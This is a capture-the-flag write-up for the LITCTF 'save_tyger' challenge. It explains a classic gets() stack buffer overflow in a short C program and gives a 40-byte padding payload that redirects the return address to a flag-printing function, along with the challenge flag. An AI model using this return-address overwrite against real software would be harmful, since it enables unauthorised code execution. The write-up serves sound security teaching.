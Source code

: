 # pwn/save_tyger

## Challenge

Tyger needs your help again.
Connect with nc litctf.live 31788

[save_tyger2](https://drive.google.com/uc?export=download&id=1qCSTo01YjzrncT0SZGOTouC4egY_q-PX)

## Solution

Like last time, we're given a C file (and an executable):
```c
#include <stdlib.h>
#include <stdio.h>

void cell(){
	printf("Thank god you got him out of this cockroach-infested cell!\n");
	FILE *f = fopen("flag.txt", "r");
	char flag[64];
	if(f == NULL){
		printf("Something went wrong. Please let Eggag know.\n");
		exit(1);
	}
	fgets(flag, 64, f);
	puts(flag);
    exit(0);
}

int main(){
	char buf[32];
	printf("NOOOO, THEY TOOK HIM AGAIN!\n");
	printf("Please help us get him out or there is no way we will be able to prepare LIT :sadness:\n");
	gets(buf);
}
```
This is another classic problem.

We need to somehow call `cell()`. Note the usage of `gets` for input, which lets us write arbitrarily many characters, so we can overflow `buf` into the return address. We now look in the executable (`objdump -d`) for the address of `cell()`, and where `buf` is stored:
```
0000000000401162 <cell>:
...
00000000004011cd <main>:
  4011cd:	55                   	push   %rbp
  4011ce:	48 89 e5             	mov    %rsp,%rbp
  4011d1:	48 83 ec 20          	sub    $0x20,%rsp
  4011d5:	bf 7d 20 40 00       	mov    $0x40207d,%edi
  4011da:	e8 51 fe ff ff       	callq  401030 <puts@plt>
  4011df:	bf a0 20 40 00       	mov    $0x4020a0,%edi
  4011e4:	e8 47 fe ff ff       	callq  401030 <puts@plt>
  4011e9:	48 8d 45 e0          	lea    -0x20(%rbp),%rax <- buf
  4011ed:	48 89 c7             	mov    %rax,%rdi
  4011f0:	b8 00 00 00 00       	mov    $0x0,%eax
  4011f5:	e8 56 fe ff ff       	callq  401050 <gets@plt>
```
`cell()` is at `0x0000000000401162` (pointers are 64-bit, or 8 bytes). `buf` is at `%rbp - 0x20`.
That means we need `0x20 = `32 bytes to reach `%rbp`, which points to the address of the previous stack frame, which is 8 bytes long.
Past that is the return address location, so we need to skip 40 bytes total.
So we need to send 40 junk characters, and then `0x0000000000401162`:
```py
print("a"*40+"6211400000000000".decode("hex"))
```
Note the leading/trailing 0s are important, to overwrite the entirety of the original address.

Pipe the python output into the netcat command, and we get our flag.

## Flag

`LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`
